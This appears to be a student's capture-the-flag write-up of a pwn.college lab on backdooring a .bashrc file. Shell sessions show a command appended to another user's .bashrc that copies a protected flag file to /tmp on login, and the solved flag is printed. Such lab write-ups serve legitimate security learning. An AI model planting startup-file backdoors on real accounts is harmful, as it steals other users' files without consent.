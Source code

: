 # 1. Bashrc Backdoor
> In this challenge we are to add our script into the backdoor of our victim, zardus. 

## My solve
**Flag:** `pwn.college{helloworld}`

The given information says that, 
/home/hacker/.bashrc is a file that runs on startup. Our aim, as hacker, is to add a script into this directory which gives us /flag from zardus's machine. 
I started with `echo 'cat /flag > /home/hacker/stolen_flag' >> /home/zardus/.bashrc` which said Permission denied. The problem here was that zardus cant write into stolen_flag because he only has read perms. So to solve this, the hacker itself has to create a file for zardus and give him permission to write into it.

So I tried this 

```bash
hacker@shenanigans~bashrc-backdoor:~$ touch /home/hacker/stolen_flag
hacker@shenanigans~bashrc-backdoor:~$ chmod +w /home/hacker/stolen_flag
hacker@shenanigans~bashrc-backdoor:~$ /challenge/victim
Username: zardus
Password: ***********
-bash: /home/hacker/stolen_flag: Permission denied
zardus@shenanigans~bashrc-backdoor:~$ exit
logout
hacker@shenanigans~bashrc-backdoor:~$ cat /home/hacker/stolen_flag
```

which still gave no output. The problem here was that zardus still lacked permissions. So I did a little bit of research and learned about a special directory where anyone can read or write files - /tmp

```bash
hacker@shenanigans~bashrc-backdoor:~$ echo 'cat /flag > /tmp/stolen_flag' >> /home/zardus/.bashrc
hacker@shenanigans~bashrc-backdoor:~$ /challenge/victim
Username: zardus
Password: **********
zardus@shenanigans~bashrc-backdoor:~$ exit
logout
hacker@shenanigans~bashrc-backdoor:~$ cat /tmp/stolen_flag
pwn.college{Y_cAaNWthI0PjFAzvclt9qRgqo2.0VMzEzNxwSM5kjNzEzW}
```


## What I learned
> I learned how to backdoor a .bashrc file using /tmp as a shared writeable location.
> /tmp is a special directory with wide-open permissions - anyone can create and write files there. It's designed for temporary files that different users might need to share.


